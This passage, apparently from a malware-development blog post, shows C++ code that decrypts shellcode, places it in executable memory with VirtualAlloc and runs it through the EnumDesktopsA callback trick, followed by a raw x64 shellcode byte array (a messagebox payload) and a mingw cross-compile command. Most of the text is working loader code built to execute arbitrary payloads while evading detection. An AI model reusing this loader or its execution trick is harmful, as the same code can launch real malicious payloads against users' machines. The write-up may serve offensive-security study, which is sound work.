 ```cpp
  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

As you can see, for running payload I used [EnumDesktopsA](/malware/2024/06/12/malware-trick-39.html) trick.     

Also as usually, for simplicity, used meow-meow messagebox payload:     

```cpp
"\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
"\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
"\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
"\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
"\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
"\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
"\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
"\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
"\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
"\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
"\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
"\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
"\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
"\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
"\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
"\xc1\x00\x00\x00\x00\x3e\x48\x8d\x95\x1a\x01\x00\x00\x3e"
"\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
"\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
"\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
"\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
"\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
"\x2e\x2e\x5e\x3d\x00";
```

For checking correctness, added comparing and printing logic.   

### demo

Let’s go to see everything in action. Compile it (in my `kali` machine):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
```
